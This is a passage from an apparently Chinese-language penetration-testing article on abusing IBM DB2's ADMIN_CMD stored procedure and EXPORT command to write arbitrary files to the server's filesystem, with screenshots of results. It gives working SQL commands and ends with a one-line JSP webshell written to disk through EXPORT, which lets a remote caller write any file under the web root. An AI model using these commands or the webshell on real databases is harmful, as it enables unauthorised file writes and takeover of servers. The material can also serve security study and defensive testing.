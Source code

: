 读取的文件信息：

![pic38](http://drops.javaweb.org/uploads/images/e2458fc6968bfabdfcaee9b158c996b58e358208.jpg)

利用DB2向操作系统写文件
-------------

DB2的EXPORT命令用于将数据库中的内容导入到文件中，使用语法如下：

```
EXPORT TO result.csv OF DEL MODIFIED BY NOCHARDEL SELECT col1, col2, coln FROM testtable;

```

使用上一小节提到的ADMIN_CMD存储过程运行该命令方法：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT * FROM VOTENAME');

```

调用过程和结果：

![pic39](http://drops.javaweb.org/uploads/images/3578b4ec73b2b59a83350eb5d847d412359030d5.jpg)

![pic40](http://drops.javaweb.org/uploads/images/edafbb48fe1d6656a5e8338ece5e76880059e700.jpg)

远程连接数据库的用户可以先创建一个表（或对EXPORT命令涉及的表具有SELECT权限），然后调用ADMIN_CMD存储过程执行EXPORT命令向操作系统写文件

向操作系统写入包含某些字符串的文件语法如下：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT ''My Content'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```

远程调用结果：

![pic41](http://drops.javaweb.org/uploads/images/6b84bf48b6905b2219f41f6c1cf57bdb799faf38.jpg)

![pic42](http://drops.javaweb.org/uploads/images/5010659c3ebf03a22bf9023947c1c3718185e5e0.jpg)

利用该方法写webshell语法：

```
CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.jsp OF DEL MODIFIED BY NOCHARDEL SELECT ''<%if(request.getParameter("f")!=null){(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("c").getBytes());response.getWriter().print("[OK]");}%>'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```

远程调用结果：

![pic43](http://drops.javaweb.org/uploads/images/78590a3177d33c124b603bde27595e0f511100c5.jpg)
